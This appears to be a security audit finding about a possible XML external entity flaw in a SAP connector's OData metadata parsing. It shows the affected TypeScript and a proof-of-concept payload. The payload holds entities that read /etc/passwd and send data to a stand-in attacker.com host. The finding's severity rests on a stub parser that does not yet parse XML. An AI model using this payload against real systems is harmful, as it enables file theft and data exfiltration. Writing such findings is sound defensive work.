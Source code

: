 **Severity:** HIGH
**CVSS Score:** 8.8 (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H)
**CWE:** CWE-611 (Improper Restriction of XML External Entity Reference)

#### Vulnerability Description

The service discovery feature parses OData `$metadata` XML responses without disabling external entity resolution, allowing XXE attacks.

#### Affected Code

**File:** `packages/core/src/connectors/base/ServiceDiscovery.ts` (lines 95-109)

```typescript
async getServiceMetadata(serviceUrl: string): Promise<ServiceMetadata | null> {
  try {
    const metadataUrl = `${serviceUrl}/$metadata`;
    const metadataXML = await this.connector.executeRequest<string>({
      method: 'GET',
      url: metadataUrl,  // ⚠️ Fetches XML from SAP system
    });

    // Parse XML metadata (simplified - in production use proper XML parser)
    return this.parseMetadataXML(metadataXML);  // ⚠️ XML parsing without XXE protection
  } catch (error) {
    console.error(`Failed to get metadata for ${serviceUrl}:`, error);
    return null;
  }
}

private parseMetadataXML(_xml: string): ServiceMetadata {
  // Simplified - in production use proper XML parser like fast-xml-parser
  return {
    entityTypes: [],
    associations: [],
  };  // ⚠️ Comment indicates production will use XML parser
}
```

#### Vulnerability Conditions

1. Production implementation will use XML parser (code comment indicates this)
2. If XML parser configured without XXE protection:
   - External entities enabled
   - DTD processing enabled
   - No entity expansion limits

#### Proof of Concept

**Attack Scenario: Malicious SAP System (or MITM Attack)**

**Malicious OData $metadata Response:**
```xml
<?xml version="1.0"?>
<!DOCTYPE edmx [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  <!ENTITY xxe2 SYSTEM "http://attacker.com/steal?data=SECRET">
]>
<edmx:Edmx xmlns:edmx="http://docs.oasis-open.org/odata/ns/edmx" Version="4.0">
  <edmx:DataServices>
    <Schema Namespace="CompromisedService" xmlns="http://docs.oasis-open.org/odata/ns/edm">
      <EntityType Name="User">
        <Property Name="Username" Type="Edm.String">&xxe;</Property>
      </EntityType>
    </Schema>
  </edmx:DataServices>
</edmx:Edmx>
```